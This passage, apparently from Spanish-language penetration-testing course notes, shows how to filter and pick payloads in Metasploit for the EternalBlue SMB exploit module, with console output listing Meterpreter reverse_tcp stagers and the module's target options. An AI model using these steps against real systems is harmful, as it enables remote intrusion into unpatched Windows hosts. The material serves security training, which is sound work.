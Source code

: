 ```r
[*] 14
```

Esto nos da un total de `14` resultados. Ahora podemos agregar otro comando `grep` después del primero y buscar `reverse_tcp`.

```r
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3
```

Con la ayuda de `grep`, reducimos la lista de payloads que queríamos a menos. Por supuesto, el comando `grep` se puede usar para todos los demás comandos. Todo lo que necesitamos saber es lo que estamos buscando.

---
## Selecting Payloads

Al igual que con el módulo, necesitamos el número de índice de la entrada que nos gustaría usar. Para configurar el payload para el módulo seleccionado actualmente, usamos `set payload <no.>` solo después de seleccionar un módulo de exploit para empezar.

### MSF - Select Payload

```r
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
```